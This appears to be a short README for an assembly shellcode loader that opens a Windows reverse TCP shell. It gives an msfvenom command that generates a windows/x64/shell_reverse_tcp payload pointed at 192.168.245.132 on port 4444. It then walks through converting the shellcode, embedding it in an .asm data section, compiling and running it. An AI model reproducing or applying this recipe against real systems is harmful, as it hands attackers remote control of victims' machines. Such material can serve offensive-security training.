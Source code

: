 # Assembler, Shellcode Loader (reverse TCP)

1. Create your payload

ex with : ```msfvenom -p windows/x64/shell_reverse_tcp RHOST=192.168.245.132 LPORT=4444 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f c > shellnew ```

2. Convert your shellcode

Use this [converter](./convert.sh)


3. Put your shellcode in your .asm code

```
.data
  shellcode DB XXXh,XXXh,XXh,..
                ....
                ....
                ....
endshellcode DB 0
```

See this example of [ASM File](./example.asm)

4. Compile your ASM

5. Run
